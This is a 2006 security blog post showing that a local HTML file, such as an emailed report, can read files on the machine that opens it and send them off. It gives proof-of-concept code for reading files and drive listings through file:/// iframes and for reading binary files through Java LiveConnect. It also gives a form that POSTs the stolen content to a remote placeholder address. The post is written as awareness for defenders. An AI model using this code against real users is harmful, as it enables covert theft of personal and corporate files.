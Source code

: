 ```yaml
---
title: Web Pages from Hell
author: pdp
date: Mon, 11 Sep 2006 21:23:31 GMT
template: post.pug
---
```


You open a html file but you are not aware. You check the content but you don't know.

> I have just received the report for the third quoter of 2006 by email. My boss says that from now on we will use simple html pages because it is more accessible. Well, I don't know much about accessibility and I don't really care. I click on the attachment. The html document stores itself no the desktop. Double click and I have it open in Firefox.

What happens next is without any doubt a security breach. Anonymous attacker has just compromised and stole important corporate documents.

Unfortunately, this story is far from being far-fetched. This is something that can happen to your organization and the technology required is here today and ready for use. Concerning, isn't it? That's the reason why I went a bit deeper into this topic, figuring out various attack vectors and composing a simple toolkit to mitigate the risk. The following post reveals some of my findings and provides disjointed source code as a proof of concept.

In this example we need Java, a single iframe, a form and a remote storage point. The iframe is used as data retrieval mechanism for html, xml and text files. Java is used as data retrieval mechanism for binary files. The form is used to send the data back to a remote storage point in a form of multiple POST request.

The first stage is to compose an iframe. You must be aware that iframes are areas where content can be rendered. This content is retrieved by a URL. The URL describes the location and also the protocol in use, which can be `HTTP, HTTPS, FTP, FILE` and maybe something else depending of your browser. Obviously `FILE` sounds quite interesting. This protocol allows us to look and browse through our system or open local files inside our browsers. Just entering `file:///C:/` in your browser window should open `C:\` drive.

It is said that iframes are secured in a way that different domains cannot access each other content. This restriction is applied with the same origin model. In simple terms, if a page from `a.com` creates hidden iframe of `b.com`, no communication is allowed between them. This means that` a.com` cannot read what is inside `b.com` iframe.

In a way this is secure, however the `FILE` protocol is excluded from this rule simply because file paths don't have domains. So, an html file loaded from `file:///C:/file.html` can open an iframe of `file:///D:/file.html` and read its content. Of course, it must be noted that no external resource can read files from the local system because the same origin model imply that the protocol must be the same in order to allow communication. This means that HTTP cannot communicate with FILE or FTP.

To cut the story short I will go into an example how all this theory can be used in practice.

A file on the file system can open any other file inside an iframe.

```html
<iframe src="file:///C:/test.txt"></iframe>
```

In order to retrieve the content of this file we have to wait for the iframe to load and then just grab its document body.

```html
<iframe src="file:///C:/test.txt" onload="getContent(this)"></iframe>
<script>
  function getContent(iframe) {
    var content = '';
    if (iframe.contentDocument) {
      content = iframe.contentDocument.body.innerHTML; 
    } else if (iframe.contentWindow) {
      content = iframe.contentWindow.document.body.innerHTML;
    } else if (iframe.document) {
      content = iframe.document.body.innerHTML;
    }
    alert(content);
  }
</script>
```

The snippet above will display the content of an iframe which currently holds `file:///C:/test.txt`.

Opening files is not fun although probably you already can see some of the potentials. Let's try something more funky by replacing `file:///C:/test.txt` with `file:///C:/.` This should open `C:\` drive.

```html
<iframe src="file:///C:/" onload="getContent(this)"></iframe>
<script>
  function getContent(iframe) {
    var content = '';
    if (iframe.contentDocument) {
      content = iframe.contentDocument.body.innerHTML; 
    } else if (iframe.contentWindow) {
      content = iframe.contentWindow.document.body.innerHTML;
    } else if (iframe.document) {
      content = iframe.document.body.innerHTML;
    }
    alert(content);
  }
</script>
```

Potentially, the snippet above has just listed your `C:\` drive into an alert box. Of course this will work on most browsers but not in IE. IE is secure in this respect, however just keep in mind that IE supports ActiveX which makes the entire process a lot more simpler in some situations.

The next step every attacker probably will do is to create a recursive function which lists directories and upload interesting content on a remote server. If you try to do this you will see that the process is not as trivial as it seams because as soon as your iframe tries to open a binary file, your browser will prompt you with a download box. Of course, the attacker can try to avoid doc, xls and other types of binary files but today this is where all interesting corporate information is stored into.

So, in order to retrieve a binary file another technology needs to be used: Java and more precisely LiveConnect which is supported by Firefox and Opera. Let's see how our binary retrieving code looks like:

```html
<script>
  function liveJaveGetContent(URL) {
    var result = '';
    var destination = new java.net.URL(URL);
    var input = java.io.DataInputStream(destination.openStream());

    while ((line = input.readLine()) != null) {
      result += line;
      result += java.lang.System.getProperty('line.separator');
    }

    input.close();
    return result;
  }
</script>
```

I must admit that the code above is not as generic as it can be but... well, no time.

So, the function above can read binary files and return them in form of a string. This string is quite valuable for the attackers but first it has to be send to a remote location. This can be achieved in many ways, however my favorite one requires something as simple as a html form.

```html
<form name="sendContentForm" method="post" action="http://path/to/remote/location">
  <textarea name="content"></textarea>
  <input type="submit"/>
</form>
```

This is it. When we call `sendContentFrom.submit()` the data will be transfered from locahost to the remote location. Of course this form wont be able to transport too much content. For that reason we have to do some partitioning and send the data in blocks.I will let this to you to play around.

The conclusion is that you should not trust anything that you open in your browser, unless you completely disable JavaScrpt, Java and Flash. The next time you open a simple html page from your desktop, keep in mind that you may have opened a security hole in your network too. While previewing the document the attacker is able to enumerate the internal infrastructure of your organization by listing mounted shares. These share may contain documents, tables and databases that might be valuable to some individuals and organizations.

_BTW, just closing the browser window wont stop this attack continuing in the background. Many browsers can be made to stay alive even after you click on the X button. Maybe I will cover this some other time._
